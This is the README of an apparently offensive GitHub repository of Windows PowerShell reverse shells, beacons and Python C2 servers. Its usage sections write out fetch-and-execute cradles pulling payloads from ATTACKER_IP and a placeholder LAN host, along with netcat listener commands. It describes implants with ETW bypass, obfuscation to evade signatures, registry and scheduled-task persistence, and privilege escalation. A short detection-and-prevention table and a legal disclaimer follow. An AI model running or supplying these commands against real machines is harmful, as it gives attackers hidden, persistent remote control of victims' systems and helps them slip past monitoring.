

<div align="center">

# 🐚 Windows Reverse Shell

[](LICENSE)
[](https://docs.microsoft.com/en-us/powershell/)
[](https://www.microsoft.com/)
[](https://github.com/AnandJogawade/Reverse-Shells/stargazers)

**A comprehensive collection of Windows reverse shell payloads — from basic TCP shells to encrypted, persistent, and beacon-based implants for red team operations.**

> ⚠️ **For authorized security testing and educational purposes only.** Unauthorized use is illegal.

</div>

---

<div align="center">

## 🎬 Proof of Concept



*Listener Setup → Payload Execution → Shell Access → Persistent Reconnect*

</div>

---

## 📖 Table of Contents

- [What is a Reverse Shell?](#-what-is-a-reverse-shell)
- [How It Works](#-how-it-works)
- [Shell Categories](#-shell-categories)
- [Repository Structure](#-repository-structure)
- [Usage](#-usage)
  - [Quick Start](#quick-start)
  - [Basic Shells](#1-basic-shells)
  - [Advanced Shells](#2-advanced-shells)
  - [Persistent Shells](#3-persistent-shells)
  - [Encrypted TCP Shell](#4-encrypted-tcp-shell)
  - [HTTP Beacon Shell](#5-http-beacon-shell)
- [Detection & Prevention](#-detection--prevention)
- [Disclaimer](#-disclaimer)

---

## 🔍 What is a Reverse Shell?

A **reverse shell** is a type of shell session where the target machine initiates a connection back to the attacker's machine. Unlike a bind shell (where the attacker connects to the target), a reverse shell bypasses firewall rules that typically block incoming connections but allow outgoing traffic.

**Why reverse shells are used in pentesting:**

- **Firewall evasion** — outbound connections are rarely blocked
- **NAT traversal** — no need for the target to have a public IP
- **Stealth** — appears as a normal outgoing connection
- **Post-exploitation** — primary method for maintaining access after initial compromise

---

## ⚙️ How It Works

```
  ┌─────────────────┐                    ┌─────────────────┐
  │   ATTACKER       │  ◀── TCP/HTTP ──  │   TARGET         │
  │  (Listener)      │     Connection    │  (Payload runs)  │
  │                   │                    │                   │
  │  nc -lvnp 4444   │                    │  PowerShell.exe   │
  │  python C2.py    │                    │  executes payload │
  └─────────────────┘                    └─────────────────┘
         │                                        │
         ▼                                        ▼
   Receives shell                          Sends cmd output
   Sends commands ──────────────────────▶  Executes & returns
```

**Step-by-step:**

1. **Attacker** starts a listener on a known port (e.g., `nc -lvnp 4444`)
2. **Payload** is delivered to the target (download cradle, phishing, exploit)
3. **Target** executes the PowerShell payload, which opens a TCP connection back to the attacker
4. **Attacker** receives a full PowerShell session on the target machine
5. Commands typed by the attacker execute on the target and output is returned

---

## 🧠 Shell Categories

### 1. Basic Shells
Simple TCP reverse shells — a direct socket connection back to the attacker with PowerShell command execution. Minimal footprint, easy to modify, and fast to deploy.

**Scripts:** `Basic-Shell`, `Simple-Shell-1` through `Simple-Shell-8`, `SImple-ReverseShell`

### 2. Advanced Shells
More sophisticated payloads with evasion techniques, dynamic port handling, and additional features:

| Script | Key Feature |
|--------|-------------|
| `Dynamic-Revshell` | Interactive menu, dynamic IP/port input at runtime |
| `Dynamic-Invoke-RevShell` | Invoke-expression based execution with dynamic params |
| `Dynamic-Obfuscated-RevShell` | Obfuscated version to evade signature detection |
| `ETW-Bypass-Reverse-Shell` | Disables ETW logging before connecting to evade behavioral monitoring |
| `Invoke-PowerShellTcp` | Nishang-style TCP shell with banner and error handling |
| `Invoke-PowerShellTcpEx` | Extended version with additional features |
| `Multi-Port-Resilient-Shell` | Tries multiple ports (4444, 5555, 443, 80, 8080) — falls back automatically |
| `NPTT-ReverseShell` | Named Pipe over TCP Transport reverse shell |
| `NPTT-Shell` | Named Pipe shell with custom transport |
| `SPTT-ReverseShell` | Socket Pipe TCP Transport reverse shell |

### 3. Persistent Shells
Shells that survive disconnects, auto-reconnect, and optionally persist across reboots:

| Script | Key Feature |
|--------|-------------|
| `Persistent-Reverse-Shell_Auto-Reconnect-1` | Basic auto-reconnect with configurable sleep interval |
| `Persistent-Reverse-Shell_Auto-Reconnect-2` | Enhanced reconnect with banner and error handling |
| `Advance-AutoPersistenceShell-1` | Registry persistence + scheduled tasks + auto-reconnect |
| `Advance-AutoPersistenceShell-2` | Enhanced persistence with multiple fallback methods |
| `FullStage-Advance-AutoPersistenceShell` | Full lifecycle implant: install → persist → privesc → exclude → beacon |

### 4. Encrypted TCP Shell
XOR-encrypted TCP communication to evade content inspection. Includes a **Python C2 server** for the attacker side.

- `EncryptedTCPShell.ps1` — PowerShell payload (target)
- `EncryptedTCPShellC2.py` — Python C2 server (attacker)

### 5. HTTP Beacon Shell
HTTP-based command-and-control that works through proxies and corporate firewalls. Beacons at configurable intervals. Includes a **Python C2 server**.

- `HTTPBeaconShell.ps1` — PowerShell beacon payload (target)
- `HTTPBeaconShellC2.py` — Python HTTP C2 server (attacker)

---

## 📁 Repository Structure

```
Windows-Reverse-Shell/
├── Basic/                              # Simple TCP reverse shells
│   ├── Basic-Shell.ps1                # Minimal one-liner shell
│   ├── Simple-Shell-1.ps1            # With error handling
│   ├── Simple-Shell-2.ps1            # StreamReader/Writer variant
│   ├── Simple-Shell-3.ps1            # Compact version
│   ├── Simple-Shell-4.ps1            # With prompt formatting
│   ├── Simple-Shell-5.ps1            # StringBuilder buffer variant
│   ├── Simple-Shell-6.ps1            # Byte array processing
│   ├── Simple-Shell-7.ps1            # Minimal variable names
│   ├── Simple-Shell-8.ps1            # Obfuscated string reversal
│   └── SImple-ReverseShell.ps1       # With connect banner
│
├── Advanced/                           # Feature-rich shells
│   ├── Dynamic-Revshell.ps1          # Interactive menu-driven
│   ├── Dynamic-Invoke-RevShell.ps1   # Invoke-expression based
│   ├── Dynamic-Obfuscated-RevShell.ps1 # Obfuscated variant
│   ├── ETW-Bypass-Reverse-Shell.ps1  # ETW evasion + shell
│   ├── Invoke-PowerShellTcp.ps1      # Nishang-style
│   ├── Invoke-PowerShellTcpEx.ps1    # Extended Nishang-style
│   ├── Multi-Port-Resilient-Shell.ps1 # Multi-port fallback
│   ├── NPTT-ReverseShell.ps1         # Named Pipe TCP Transport
│   ├── NPTT-Shell.ps1                # Named Pipe shell
│   └── SPTT-ReverseShell.ps1         # Socket Pipe TCP Transport
│
├── Persistent/                         # Auto-reconnect & persistence
│   ├── Persistent-Reverse-Shell_Auto-Reconnect-1.ps1
│   ├── Persistent-Reverse-Shell_Auto-Reconnect-2.ps1
│   ├── Advance-AutoPersistenceShell-1.ps1
│   ├── Advance-AutoPersistenceShell-2.ps1
│   └── FullStage-Advance-AutoPersistenceShell.ps1
│
├── Encrypted-TCP-Shell/                # XOR-encrypted TCP shell + C2
│   ├── EncryptedTCPShell.ps1          # PowerShell payload
│   └── EncryptedTCPShellC2.py         # Python C2 server
│
├── HTTP-Beacon-Shell/                  # HTTP beacon shell + C2
│   ├── HTTPBeaconShell.ps1            # PowerShell beacon
│   └── HTTPBeaconShellC2.py           # Python HTTP C2 server
│
├── assets/
│   └── demo.gif
├── LICENSE
└── README.md
```

---

## 🚀 Usage

### Quick Start

**1. Start a listener on the attacker machine:**
```bash
nc -lvnp 4444
```

**2. On the target, execute a payload (pick any):**
```powershell
# Remote download + execute
IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Basic/Basic-Shell.ps1')

# Or paste directly into PowerShell
$c=New-Object Net.Sockets.TCPClient("192.168.0.100",4444)
# ... (see individual scripts)
```

**3. Catch the shell on your listener!**

> **Note:** Replace `192.168.0.100` with your attacker IP. All scripts use `192.168.0.100` as the default — change it before deployment.

---

### 1. Basic Shells

Paste directly into PowerShell or download via `IEX`:

```powershell
# Basic-Shell.ps1 (simplest)
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Basic/Basic-Shell.ps1')

# Simple-Shell-1.ps1 (with error handling)
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Basic/Simple-Shell-1.ps1')
```

Each `Simple-Shell-N` variant uses different coding patterns and obfuscation levels — choose based on what evades the target's defenses.

---

### 2. Advanced Shells

```powershell
# Dynamic shell - prompts for IP/Port at runtime
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Advanced/Dynamic-Revshell.ps1')

# ETW bypass + shell - disables event logging first
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Advanced/ETW-Bypass-Reverse-Shell.ps1')

# Multi-port - tries 4444, 5555, 443, 80, 8080 in order
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Advanced/Multi-Port-Resilient-Shell.ps1')
```

---

### 3. Persistent Shells

```powershell
# Auto-reconnect (retries every 10s if connection drops)
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Persistent/Persistent-Reverse-Shell_Auto-Reconnect-1.ps1')

# Full lifecycle implant (install + persist + privesc + beacon)
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Persistent/FullStage-Advance-AutoPersistenceShell.ps1')
```

---

### 4. Encrypted TCP Shell

**Attacker (start the C2):**
```bash
python3 EncryptedTCPShellC2.py
```

**Target (execute payload):**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/Encrypted-TCP-Shell/EncryptedTCPShell.ps1')
```

Traffic is XOR-encrypted — evades basic content inspection and IDS signature matching.

---

### 5. HTTP Beacon Shell

**Attacker (start the HTTP C2):**
```bash
python3 HTTPBeaconShellC2.py
```

**Target (execute beacon):**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/HTTP-Beacon-Shell/HTTPBeaconShell.ps1')
```

Beacons over HTTP every 5 seconds — works through corporate proxies and blends with normal web traffic.

---

## 🔒 Detection & Prevention

### How Defenders Can Detect Reverse Shells

| Detection Method | What It Catches |
|-----------------|-----------------|
| **Network Monitoring** | Unusual outbound connections to non-standard ports |
| **Process Monitoring** | PowerShell spawned by unusual parent processes |
| **Command Line Logging** | `Net.Sockets.TCPClient`, `StreamReader`, `StreamWriter` patterns |
| **DNS/HTTP Analysis** | Beaconing patterns with regular intervals |
| **Firewall Egress Rules** | Connections to unknown external IPs on uncommon ports |
| **AMSI** | Scans PowerShell content before execution |
| **ETW Tracing** | Logs PowerShell execution events |
| **Endpoint Detection (EDR)** | Behavioral analysis of network-connected PowerShell |

### Prevention Best Practices

1. **Egress filtering** — only allow outbound connections to known destinations
2. **Application whitelisting** — restrict PowerShell execution with WDAC/AppLocker
3. **Constrained Language Mode** — block .NET socket access in PowerShell
4. **Network segmentation** — limit lateral movement
5. **Script Block Logging** — log all PowerShell execution
6. **AMSI enabled** — catch known payload signatures
7. **Disable PowerShell v2** — older version bypasses most modern controls
8. **Monitor scheduled tasks & registry** — catch persistence mechanisms

---

## ⚠️ Disclaimer

This repository is intended **strictly for authorized security testing, research, and educational purposes**.

**By using this repository, you agree that:**

- You will only use these scripts on systems you own or have explicit written authorization to test
- You understand that unauthorized access to computer systems is a criminal offense
- The author assumes no liability for misuse of the contents of this repository
- You will use this knowledge to improve security, not to cause harm

---

<div align="center">

**Made by [AnandJogawade](https://github.com/AnandJogawade)** | ⭐ Star this repo if you find it useful!

</div>
